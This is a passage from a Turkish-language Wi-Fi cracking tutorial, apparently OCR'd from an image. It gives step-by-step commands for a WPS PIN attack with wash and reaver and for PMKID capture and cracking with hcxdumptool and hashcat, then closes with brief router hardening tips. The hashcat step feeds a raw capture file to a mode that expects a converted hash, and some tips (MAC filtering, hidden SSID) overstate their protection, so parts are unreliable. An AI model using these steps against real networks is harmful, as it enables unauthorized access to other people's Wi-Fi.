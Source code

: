 ## **📌 2️⃣ WPS PIN Zafiyeti ile Şifre Kırma**

📡 **Bazı modemlerde "WPS PIN" güvenlik açığı bulunur.**🛠 **Araç:** Reaver

### **🔹 Adım 1: Hedef Ağı Tespit Etme**

bash

sudo wash -i wlan0mon

📌 **WPS etkin olan modemleri listeleyecektir.**

### **🔹 Adım 2: WPS PIN Saldırısı Başlatma**

bash

sudo reaver -i wlan0mon -b [BSSID] -vv

💡 **Bu yöntem, WPS açık modemlerde şifreyi birkaç saat içinde kırabilir.**

## **📌 3️⃣ PMKID Saldırısı (Handshake Yakalamadan Kırma)**

📡 **Bu yöntem, WPA/WPA2 ağlarına bağlanmadan parola hash’ini ele geçirmek için kullanılır.**

🛠 **Araç:** hcxdumptool ve Hashcat

### **🔹 Adım 1: PMKID Paketini Yakalama**

bash

sudo hcxdumptool -i wlan0mon --enable\_status=1 -o pmkid.pcapng

### **🔹 Adım 2: PMKID Hash’i Kırma**

bash

hashcat -m 16800 pmkid.pcapng rockyou.txt --force

💡 **Handshake yakalamadan WPA2 şifresi kırmanın en hızlı yollarından biridir.**

# **📌 WPA Şifreleme ve Güvenlik Önlemleri**

✅ **Güçlü bir parola kullanın (12+ karakter, büyük/küçük harf, özel karakter ve rakam içermeli).**
✅ **WPS özelliğini kapatın.**
✅ **Modemin firmware’ini güncelleyin.**
✅ **MAC adres filtresi uygulayın.**
✅ **Gizli SSID kullanın.**

**\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_**

##

##

##
